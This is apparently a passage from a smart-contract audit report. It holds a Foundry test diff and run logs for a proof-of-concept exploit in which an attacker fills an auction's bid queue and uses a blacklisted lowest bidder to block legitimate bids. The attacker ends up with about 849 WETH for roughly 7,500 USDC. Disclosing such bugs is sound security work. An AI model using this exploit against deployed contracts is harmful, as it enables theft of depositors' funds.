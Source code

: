 ```solidity
  addressB submitted 1000th bid
  addressB (lowest bidder) got blacklisted
  Try submitting legitimate bid

Suite result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 2.55s (2.55s CPU time)
```

Now let's expand the test to demonstrate how auction ends and attacker drains the reserves:
```diff
        // 4th step - legitimate bidder tries to submit bid. Since queue is already filled with 1000 bids, the lowest one has to be removed.
        // However removing the lowest bid means sending refund USDC to the blacklisted address -> TX will revert
        address legitimateBidder = makeAddr("legitimateBidder");
        wethAmount = 1 ether;
        usdcAmount = slotSize * 40;
        deal(couponToken, legitimateBidder, usdcAmount);
        vm.startPrank(legitimateBidder);
        IERC20(couponToken).approve(address(auction), usdcAmount);
        console.log("Try submitting legitimate bid");
+       vm.expectRevert("Blacklisted!");
        auction.bid({buyReserveAmount: wethAmount, sellCouponAmount: usdcAmount});
        vm.stopPrank();

+       // 5th step - after auction ends attacker claims his 999 bids. Ends up acquiring 849.15 WETH for ~7500 USDC.
+       vm.warp(block.timestamp + 10 days);
+       auction.endAuction();
+       assertEq(uint256(auction.state()), uint256(Auction.State.SUCCEEDED));
+       console.log("Auction ended successfully");
+
+       vm.startPrank(attackerAddressA);
+       for (uint256 i = 0; i < numberOfBids; i++) {
+           auction.claimBid(i + 1);
+       }
+       assertEq(IERC20(reserveToken).balanceOf(attackerAddressA), 999 * 0.85 ether);
+
+       console.log("Attacker's amount of USDC spent:", 100 * slotSize);
+       console.log("Attacker's amount of WETH acquired:", IERC20(reserveToken).balanceOf(attackerAddressA));
```

Run it:
```solidity
❯ forge test --mt test_AuctionExploit -vv

[PASS] test_AuctionExploit() (gas: 1114214211)
Logs:
  Factory created
  Pool created
  Users deposits 1000 WETH
  Amount of USDC to be collected in auction: 75025000000
  Slot size: 75025000
  addressA submitted 999 bids
  addressB submitted 1000th bid
  addressB (lowest bidder) got blacklisted
  Try submitting legitimate bid
  Auction ended successfully
  Attacker's amount of USDC spent: 7502500000
  Attacker's amount of WETH acquired: 849150000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.60s (2.59s CPU time)
```
